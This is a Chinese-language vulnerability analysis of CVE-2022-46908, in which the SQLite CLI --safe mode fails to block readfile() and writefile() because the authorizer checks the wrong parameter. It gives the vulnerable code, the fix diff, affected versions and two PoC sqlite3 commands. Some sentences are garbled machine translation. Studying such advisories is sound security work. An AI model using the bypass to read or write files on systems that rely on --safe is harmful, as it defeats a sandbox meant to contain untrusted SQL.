


# CVE-2022-46908 CWE-None SQLite 安全特性绕过

## 漏洞背景

- **SQLite：** 一个轻量级的、嵌入式的关系型数据库管理系统，它不需要单独的服务器进程，也不需要复杂的配置。SQLite 直接在文件系统上存储数据，具有零配置、易于使用和适合小型应用的特点。它支持标准的 SQL 语句，提供良好的数据安全性，并且因其轻量级特性被广泛应用于桌面和移动应用开发中。
- **--safe 选项：** SQLite 提供的一个安全功能，用于限制在命令行界面（CLI）中执行潜在危险的操作。当启用 `--safe` 选项时，SQLite 会禁用一些可能对系统造成风险的功能，例如文件操作函数（如 `writefile()` 和 `readfile()`）以及外部扩展加载等。这可以有效防止在执行不受信任的 SQL 脚本时，导致敏感文件的泄露或系统安全性受到威胁。启用 `--safe` 选项后，SQLite 将仅允许执行相对安全的数据库操作，提升了数据库在处理外部输入时的安全性。

## 漏洞原理


**范围说明：**该缺陷仅影响 `sqlite3` 命令行 Shell 的 `--safe` 选项，不存在于 SQLite 核心库中。只有在操作人员依赖 `--safe` 让 CLI 处理不受信任的 SQL 时，才会受到影响。

启用时 `--safe` 模式， SQLite 无法正确禁用某些自定义的危险功能， 例如 `writefile()` 和 `readfile()`。这些功能本应在 `--safe` 模式,用于防止未信任执行时的文件操作 SQL 剧本。 然而,由于代码中的参数不正确,禁用检查输入 `--safe` 模式无法正确识别这些功能,允许攻击者绕过限制并进行可能损害系统安全的操作,从而产生文件泄露或任意代码执行的潜在风险。

## 漏洞定位

在 src/shell.c.in 文件，第 1860 行`safeModeAuth`函数。

第 1878 行，`UNUSED_PARAMETER`代表`zA2`参数没有被使用。

第 1893 行，在 `SQLITE_FUNCTION` 操作中，代码使用 `zA1` 来匹配禁用函数名数组 `azProhibitedFunctions` 中的元素。

```c
/*
** This authorizer runs in safe mode.
*/
// shell.c.in 文件，第 1860 行
static int safeModeAuth(
  void *pClientData,
  int op,
  const char *zA1,
  const char *zA2,
  const char *zA3,
  const char *zA4
){
  ShellState *p = (ShellState*)pClientData;
  static const char *azProhibitedFunctions[] = {
    "edit",
    "fts3_tokenizer",
    "load_extension",
    "readfile",
    "writefile",
    "zipfile",
    "zipfile_cds",
  }; 
    // ***** 1878 行 ***** `zA2`参数没有被使用 *****
  UNUSED_PARAMETER(zA2);
  UNUSED_PARAMETER(zA3);
  UNUSED_PARAMETER(zA4);
  switch( op ){
    case SQLITE_ATTACH: {
#ifndef SQLITE_SHELL_FIDDLE
      /* In WASM builds the filesystem is a virtual sandbox, so
      ** there's no harm in using ATTACH. */
      failIfSafeMode(p, "cannot run ATTACH in safe mode");
#endif
      break;
    }
    case SQLITE_FUNCTION: {
      int i;
      for(i=0; i<ArraySize(azProhibitedFunctions); i++){
          // ***** 1893 行 *****
        if( sqlite3_stricmp(zA1, azProhibitedFunctions[i])==0 ){
          failIfSafeMode(p, "cannot use the %s() function in safe mode",
                         azProhibitedFunctions[i]);
        }
      }
      break;
    }
  }
  return SQLITE_OK;
}
```

## 漏洞修复


使用 SQLite  3.40.1 或包含报到内容的建筑物 `cefc032473ac5ad2`在更新之前,不依赖 CLI因为 `--safe` 选项作为未信任的沙盒 SQL;将进程与操作系统控制隔离。

更改函数逻辑以确保检查是正确的参数 `zA2` (应为函数名称),而不是 `zA1`。允许 SQLite 以正确识别和禁用诸如 `writefile()` 和 `readfile()` 输入 `--safe` 模式。

```diff
Index: src/shell.c.in
==================================================================
--- src/shell.c.in
+++ src/shell.c.in
@@ -1878,11 +1878,11 @@
     "readfile",
     "writefile",
     "zipfile",
     "zipfile_cds",
   };
-  UNUSED_PARAMETER(zA2);
+  UNUSED_PARAMETER(zA1);
   UNUSED_PARAMETER(zA3);
   UNUSED_PARAMETER(zA4);
   switch( op ){
     case SQLITE_ATTACH: {
 #ifndef SQLITE_SHELL_FIDDLE
@@ -1893,11 +1893,11 @@
       break;
     }
     case SQLITE_FUNCTION: {
       int i;
       for(i=0; i<ArraySize(azProhibitedFunctions); i++){
-        if( sqlite3_stricmp(zA1, azProhibitedFunctions[i])==0 ){
+        if( sqlite3_stricmp(zA2, azProhibitedFunctions[i])==0 ){
           failIfSafeMode(p, "cannot use the %s() function in safe mode",
                          azProhibitedFunctions[i]);
         }
       }
       break;
```

## 影响版本


使用 `--safe` 选项时，SQLite CLI 3.37.0 至 3.40.0 受影响。SQLite 核心库不受影响。

## 环境搭建

启动 Docker 环境，SQLite 版本为 3.40.0，其中在编译时开启了 ASAN 内存检测

```txt
NIST:NVD    Base Score:7.3 HIGH    Vector:CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:L

ADP:CISA-ADP    Base Score:7.3 HIGH     Vector:CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:L
```

```txt
cpe:2.3:a:sqlite:sqlite:3.40.0:*:*:*:*:*:*:*
```



## 漏洞复现

1. 进入容器命令行

   ```bash
   docker exec -it sqlite-3.40.0 bash
   ```

2. 依次执行下面的命令

   ```bash
   sqlite3 --safe ":memory:" "SELECT writefile('secret.txt', randomblob(5))"
   
   
   sqlite3 --safe ":memory:" "SELECT readfile('secret.txt')"
   
   ```

3. 可以看到尽管启用了 `--safe`，但仍然能够成功执行 `writefile()` 和 `readfile()`，这说明 `--safe` 选项在这个版本中没有完全禁用这些函数。



## PoC分析

这个命令会将 5 字节的随机数据写入 `secret.txt`，即使在启用了 `--safe` 之后，这个操作依然成功执行了。

```bash
sqlite3 --safe ":memory:" "SELECT writefile('secret.txt', randomblob(5))"
```

这个命令会从 `secret.txt` 中读取数据，结果也执行成功。

```bash
sqlite3 --safe ":memory:" "SELECT readfile('secret.txt')"
```

## 参考链接


[NVD - CVE-2022-46908](https://nvd.nist.gov/vuln/detail/CVE-2022-46908)

[SQLite: Check-in [cefc032473\]](https://sqlite.org/src/vinfo/cefc032473ac5ad2?diff=2&proof=946763938)

[SQLite User Forum: Why does --safe not prevent readfile()?](https://sqlite.org/forum/forumpost/07beac8056151b2f)
